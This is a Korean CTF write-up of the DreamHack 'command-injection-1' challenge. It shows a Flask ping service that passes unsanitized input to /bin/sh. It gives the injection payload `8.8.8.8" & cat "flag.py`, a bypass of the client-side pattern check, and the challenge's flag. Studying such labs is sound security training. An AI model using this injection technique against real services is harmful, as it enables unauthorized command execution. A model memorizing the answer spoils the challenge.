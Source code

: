 # [DreamHack] command-injection-1

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 특정 Host에 ping 패킷을 보내는 서비스입니다.
> Command Injection을 통해 플래그를 획득하세요. 플래그는 `flag.py`에 있습니다.
>
> Release: [command-injection-1.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8551885/command-injection-1.zip)

## Analysis

```python
@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host') # ping을 보낼 host 입력
        cmd = f'ping -c 3 "{host}"' # command injection 가능
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5) # sh 셸에서 cmd 실행
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')
```

입력한 `host`를 `f'ping -c 3 "{host}"'`에 넣어서 실행한다. 필터링이 없기 때문에 command injection으로 `flag.py` 파일의 내용을 출력하면 된다.

## Exploit

`host`에 `8.8.8.8" & cat "flag.py`를 입력하면 `cmd`는 `ping -c 3 "8.8.8.8" & cat "flag.py"`가 되어, ping 요청의 응답을 받음과 동시에 플래그를 획득할 수 있다.

문제 사이트의 입력 창에는 `pattern="[A-Za-z0-9.]{5,20}"` 속성이 있어서 자유롭게 입력할 수 없으므로, 이 속성을 먼저 없애야 한다.

![image](https://user-images.githubusercontent.com/104156058/165029098-7d9d197f-eb8c-4b6e-8770-0c4d09380dd2.png)

![image](https://user-images.githubusercontent.com/104156058/165029127-774ffc4e-74dd-406a-9b20-468805a32525.png)

`pattern` 속성을 없애고 나서

![image](https://user-images.githubusercontent.com/104156058/165029183-2f6efa30-c56d-4a59-ad0a-05d9d74e6338.png)

이렇게 입력을 주면

![image](https://user-images.githubusercontent.com/104156058/165029230-984a6df3-aa3f-401d-bc34-53fc6d21a30d.png)

플래그를 획득할 수 있다.

```
flag: DH{pingpingppppppppping!!}
```